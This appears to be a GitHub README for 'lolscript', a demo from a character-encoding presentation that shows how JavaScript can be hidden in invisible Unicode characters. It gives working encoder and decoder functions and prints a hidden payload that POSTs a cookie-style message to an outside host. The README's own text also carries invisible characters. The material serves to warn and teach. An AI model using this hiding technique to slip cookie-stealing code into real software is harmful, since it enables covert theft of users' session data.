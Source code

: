 # lolscript
Perception Exploit - OR - Why you should NEVER EVER EVER copy paste and exectue someone else's code.

written󠄠󠄨󠅬󠅡󠅴󠅥󠄠󠅬󠅡󠅳󠅴󠄠󠅮󠅩󠅧󠅨󠅴󠄩 by **James0x57** for a Character Encoding presentation at [Bitovi](https://www.bitovi.com/) 

-------

Take a look at **lol.js**; *What do you think it does?*

What if I told you it creates and sends a POST request with your cookie information to my attack site?

lol

It does󠅮󠄧󠅴.

--------

In its current obsfucation, the `lolscript` (lol.js) will only run on Little Endian machines.

To run it on Big Endian machines, change the Chinese(?) characters on lines 5 and 6 to `"畮"` and `"敳捡灥"` respectively.

Here's a bit of data to help see part of what's going on:
```
BIG ENDIAN
bitovi   62 69  74 6F  76 69
扩瑯癩    6269   746F    7669

LITTLE ENDIAN
扩瑯癩    6962   6F74    6976
ibotiv   69 62  6F 74  69 76

BIG ENDIAN
楢潴楶    6962   6F74    6976

LITTLE ENDIAN
bitovi   62 69  74 6F  76 69
```

--------

And finally, here’s the functions to encode and decode the hidden stuff. Be nice. Have fun. Show me your awesome
```js
var encoder = function (visibleChar, hiddenMessage) {
  return visibleChar + unescape(hiddenMessage.replace(/./g, function (x) { return "%uDB40%uDD" + x.charCodeAt(0).toString(16); }));
};
var decoder = function (msg) {
  return unescape(escape(msg).replace(/uDB40%uDD/g,[]));
};
```
and this is the payload in lolscript:
```js
"l" + encoder("o", `var xhr = new XMLHttpRequest(); xhr.open("POST", "https://bitovi.com/", true); xhr.send(JSON.stringify({ "document.cookie": "this easily could have been your session information. <3" }));`) + "l"
```

Note: It doesn't actually send the cookie info because it's a demo. But it is fewer characters to do that than to write the message I'm sending instead.

Also, bitovi.com isn't an evil attack site. Obviously.



<sub>[inspired by Stefan Judis](https://www.stefanjudis.com/blog/hidden-messages-in-javascript-property-names/)</sub>
